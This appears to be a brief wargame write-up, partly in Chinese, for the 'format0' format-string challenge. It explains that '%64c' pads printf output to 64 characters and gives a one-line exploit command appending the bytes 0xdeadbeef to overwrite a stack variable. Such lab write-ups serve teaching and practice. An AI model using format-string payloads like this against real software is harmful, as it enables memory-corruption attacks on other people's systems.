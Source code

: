 # Format

## Format0

算是 buffer overflow

`%64c` 可以印出 64 個字 ( 在 printf )

`./format0 $(python -c "print '%64c'+'\xef\xbe\xad\xde'")`
